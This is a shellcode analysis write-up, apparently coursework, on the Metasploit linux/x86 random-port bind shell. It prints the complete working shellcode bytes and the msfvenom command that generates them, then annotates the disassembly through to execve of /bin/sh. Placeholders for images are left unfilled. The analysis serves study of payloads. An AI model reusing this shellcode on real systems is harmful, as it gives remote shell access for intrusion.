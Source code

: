 # linux/x86/shell_bind_tcp_random_port
- Analysis by: William Moody
- PA-25640

First I dumped the shellcode:
`msfvenom -p linux/x86/shell_bind_tcp_random_port -f c`

Next I got a graph with libemu:
```
echo -ne "\x31\xdb\xf7\xe3\xb0\x66\x43\x52\x53\x6a\x02\x89\xe1\xcd\x80\x52\x50\x89\xe1\xb0\x66\xb3\x04\xcd\x80\xb0\x66\x43\xcd\x80\x59\x93\x6a\x3f\x58\xcd\x80\x49\x79\xf8\xb0\x0b\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x41\xcd\x80" | sctest -vvvv -Ss 100000 -G linux-x86-shell_bind_tcp_random_port.dot
dot linux-x86-shell_bind_tcp_random_port.dot -Tpng -o linux-x86-shell_bind_tcp_random_port.png
```

<<INSERT GRAPH HERE>>

Next I dissasembled the shellcode with ndisasm. This time the shellcode was accurate.
`echo -ne ... | ndisasm -u - -b32 -p intel`

Finally I started analyzing the workings with gdb.

```
b*main+286
r
stepi
```

First the shellcode creates a socket with the socketcall syscall and the
SYS_SOCKET subcall.

```
int socketcall(0x1, *args);
int sockfd = socket(int domain, int type, int protocol);
```

```
00000000  31DB              xor ebx,ebx				; EBX = 0
00000002  F7E3              mul ebx				
00000004  B066              mov al,0x66				; EAX = 0x66 (SYS_SOCKETCALL)
00000006  43                inc ebx					; EBX = 0x1 (SYS_SOCKET)
00000007  52                push edx				; int protocol = 0x0 (default)
00000008  53                push ebx				; int type = 0x1 (SOCK_STREAM)
00000009  6A02              push byte +0x2			; int domain = 0x2 (AF_INET)
0000000B  89E1              mov ecx,esp				; *args = ESP
0000000D  CD80              int 0x80				; socketcall() -> socket()
```

Next, the shellcode makes another socketcall, this time it is with the 
SYS_LISTEN subcall. Since the socket was not bound to any port, this will
make the socket listen on an arbitrary (free) port.

```
int socketcall(0x4, *args);
int listen(sockfd, 0);
```

```
0000000F  52                push edx				; int backlog = 0
00000010  50                push eax				; int sockfd = result of socket()
00000011  89E1              mov ecx,esp				; *args = ESP
00000013  B066              mov al,0x66				; EAX = 0x66 (SYS_SOCKETCALL)
00000015  B304              mov bl,0x4				; EBX = 0x4
00000017  CD80              int 0x80				; socketcall() -> listen()
```

Next, another socketcall (SYS_ACCEPT). This will block until a client connects
to the socket.

```
int socketcall(int 0x5, *args);
int accept();
```

```
00000019  B066              mov al,0x66				; EAX = 0x66 (SYS_SOCKETCALL)
0000001B  43                inc ebx					; EBX = 0x5 (SYS_ACCEPT)
0000001C  CD80              int 0x80				; socketcall() -> accept()
```

For testing I connected to the socket with netcat.

<<INSERT NETCAT PICTURE HERE>>

Once a client connected to the socket, the following shellcode will execute.
It will duplicate the file descriptors 0-ECX in a loop (STDIN, STDOUT, STDERR)
so that all I/O to the shell will be controlled by the client. 

```
int dup2(int oldfd, int newfd);
```

```
0000001E  59                pop ecx					; ECX = sockfd
0000001F  93                xchg eax,ebx			; EBX = 4
00000020  6A3F              push byte +0x3f
00000022  58                pop eax					; EAX = 0x3f (SYS_dup2)
00000023  CD80              int 0x80				; dup2()
00000025  49                dec ecx
00000026  79F8              jns 0x20
```

And finally "/bin/sh" is executed and the client should have a shell now.

```
int execve(const char *pathname, char *const argv[], char *const envp[]);
```

```
00000028  B00B              mov al,0xb				; EAX = 0xb (SYS_EXECVE)
0000002A  682F2F7368        push dword 0x68732f2f	; "hs//"
0000002F  682F62696E        push dword 0x6e69622f	; "nib/"
00000034  89E3              mov ebx,esp				; argv[] = *"/bin//sh"
00000036  41                inc ecx					; envp[] = nullptr
00000037  CD80              int 0x80				; execve()
```
